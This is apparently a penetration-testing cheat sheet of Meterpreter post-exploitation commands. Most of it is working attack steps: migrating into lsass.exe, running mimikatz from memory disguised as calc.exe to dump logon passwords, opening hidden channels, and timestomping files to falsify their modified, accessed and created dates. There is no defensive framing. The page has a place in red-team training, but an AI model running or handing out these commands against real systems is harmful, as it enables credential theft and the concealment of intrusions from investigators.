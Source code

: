 #### The executable file can be on attacker side since meterpreter is running completely in memory, we can execute remote binaries directly in memory.

```
execute -h
```

example:

#### execute mimikatz directly from memory(binary is on attacker side):

```
migrate -N lsass.exe
execute -H -i -c -m -d calc.exe -f /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
```

#### adding command parameters( -a)

```
execute -H -i -c -m -d calc.exe -f /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -a '"sekurlsa::logonpasswords" exit'
```

## <mark style="color:red;">Multiple Connection Channels</mark>

example:

open notepad app in a different channel

```
execute -f notepad.exe -c
```

list channels

```
channel -l 
```

read/write data to a channel

```
write [option] [channel id]
read
```

## <mark style="color:red;">Change File Timestamp</mark>

modify the date and time of file and folder modification and access

```
timestomp -h

# list the value of MACE (modified-accessed-created-entry)
timestomp /path/to/file -v 

# change the creation time
 timestomp /path/to/file -c  "05/25/2020 01:01:01"
 
 #  change last access time
  timestomp /path/to/file -a  "05/25/2020 01:01:01" 
  
 # change the last modify time
  timestomp /path/to/file -m  "05/25/2020 01:01:01"
```

